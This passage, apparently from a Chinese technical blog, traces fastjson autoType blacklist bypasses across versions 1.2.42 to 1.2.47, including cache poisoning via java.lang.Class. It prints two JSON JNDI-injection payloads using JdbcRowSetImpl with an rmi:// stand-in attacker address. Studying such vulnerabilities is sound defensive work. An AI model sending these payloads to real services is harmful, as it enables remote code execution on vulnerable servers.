 而黑白名单又是通过 startWith 检测的，那么黑客只要在自己想要使用的攻击类库前后加上 `L` 和 `;` 就可以绕过黑白名单的检查了，也不耽误被 fastjson 正常加载。于是攻击就变成了这样：

```json
{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```



为了避免被攻击，在之后的 **v1.2.42** 版本中，在进行黑白名单检测的时候，fastjson 先判断目标类的类名的前后是不是 `L` 和 `;`，如果是的话，就截取掉前后的 `L` 和 `;` 再进行黑白名单的校验。

看似解决了问题，但发现了这个规则之后，就在攻击的目标类前后双写 `LL` 和 `;;`，这样再被截取之后还是可以绕过检测。如 `LLcom.sun.rowset.JdbcRowSetImpl;;`。

```json
{
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```

fastjson 发现后又短暂的修复了这个漏洞，只要以 `L` 开头或 `;` 结尾的直接抛异常。



在之后的几个版本中，黑客的主要的攻击方式就是绕过黑名单了，而 fastjson 也在不断的完善自己的黑名单。

好景不长，在升级到 **v1.2.47** 版本时，黑客再次找到了办法来攻击。而且这个攻击只有在 **autoType 关闭**的时候才生效。

因为在 fastjson 中有一个全局缓存，在类加载的时候，如果 autotype 没开启，会先尝试从缓存中获取类，如果缓存中有，则直接返回。黑客正是利用这种机制进行了攻击：将一个类加到缓存中，然后再次执行的时候就可以绕过黑白名单检测了，多么聪明的手段。

首先想要把一个黑名单中的类加到缓存中，需要使用一个不在黑名单中的类，这个类就是 `java.lang.Class`，这个类对应的反序列化器是`MiscCodec`，反序列化时会取出一个`val`属性，并加载这个`val`对应的值（全类名）

![](../images/2021/04/01/029.png)

如果 cache 为 true，就会缓存这个 `val` 对应的 class 到全局缓存中。

![](../images/2021/04/01/030.png)
